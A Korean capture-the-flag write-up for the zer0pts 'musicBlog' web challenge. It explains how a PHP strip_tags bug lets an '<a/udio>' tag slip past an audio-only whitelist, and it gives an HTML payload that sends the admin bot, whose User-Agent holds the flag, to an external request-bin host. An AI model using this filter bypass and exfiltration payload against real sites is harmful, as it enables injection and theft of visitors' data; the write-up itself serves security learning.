# 취약점 분석

> Name
> musicBlog

> Description
> You can introduce favorite songs to friends with MusicBlog!

> File
> MusicBlog.tar.gz

## DockerFile 분석



- PHP 7.4.0 버전을 사용하는 것을 확인할 수 있으며 해당 버전에 맞는 버그를 바탕으로 flag를 획득할 수 있겠다.

```jsx
async function 함수이름() {
	await 비동기 처리 메서드 명();
}
```

- 함수의  앞에 async 라는 예약어를 붙인후, 함수 내부에서 비동기 처리가 필요한 메서드에 await를 붙여준다.
- await 붙인 메서드는 비동기 처리 메서드가 꼭 promise 객체를 반환해야 await가 의도한 대로 동작한다.

## flag 문자열 찾기



- flag 문자열을 검색하여 `worker.js` 소스코드를 확인할 수 있다.
- 해당 코드를 보면 재선언, 재할당이 불가능하도록 설정되어 있다. `zer0pts{<censored>}`
- setUserAgent 메서드를 바탕으로 flag 값을 UserAgent로 설정하는 것을 확인할 수 있다.

## SamplePage





- Sample Page 분석시 `<audio>` 태그를 사용하여 post 올릴 수 있는것으로 추정된다.

## post.php 분석



- post를 게시할 때 문자열 필터링을 하는 부분이 존재한다. 해당 부분은 `render_tags` 함수를 바탕으로 제어된다.

## util.php 분석



- `redner_tags` 함수는 util.php에 구현되어 있으며 사용자의 입력값을 인자로 받아와 `preg_replace` 함수를 바탕으로,

```php
$str = preg_replace('/\[\[(.+?)\]\]/',
	'<audio controls src="\\1"></audio>', '[[www.naver.com]]');

=>
<audio controls src="www.naver.com"></audio>
```

- `[[URL]]` 정규화를 바탕으로 `<audio>` 치환되는 모습을 확인할 수 있다
- 두번 째 필터로는 `strip_tags` 함수로 `<audio>` 태그를 정확히 써야 허용되는 메서드이다.

```php
strip_tags('<audio>', '<audio>'); // => allows
strip_tags('<script>', '<audio>'); // => Deny
```

- 하지만 두 번째 필터링 부분에서 PHP 버그가 발생한다.

## strip_tags allows / in tag name, allowing whitelist bypass in browsers



- `strip_tags` 관련 bug를 확인하면 만약 `<strong>` 태그를 화이트리스트에 존재할 경우 `<s/trong>` 구문도 그대로 복사되어 유지되는 모습을 확인할 수 있다.

## PHP Bug 테스트





- `<audio>` 태그 부분에 `/` 을 입력하여 `strip_tags` 메서드 버그로 인하여 다음과 같이

```html
<a udio>PHP BUG</a>
```

- `a` 태그 로 인식하게되어 우회가 가능하다. 그렇다면 a태그를 사용하여 외부 서버로 요청을 보내게 되면 `user-agent` 헤더 부분을 읽을 수 있지 않을까?
- 그렇다면 앞에서 분석해본 `work.js` 에서는 `newPage()` 메서드를 통해 생성을 한 후에 `UserAgent`를 바탕으로 적용을 한후 `id: like` 이벤트가 발생하였을 경우 적용된 resource를 받을 수 있기 때문에 페이로드를 짤때 `id` 값을 like로 적용을 한 후에 보내야 한다.

```html
<a/udio href="https://11973bb238cad6a84c369c6b0060ed0b.m.pipedream.net" id="like">
	 EXPLOIT </a/udio>
```





## response Event 확인



- 응답 결과 헤더 라인에 user-agent 속성에서 FLAG 값을 확인할 수 있다.

``` toc
```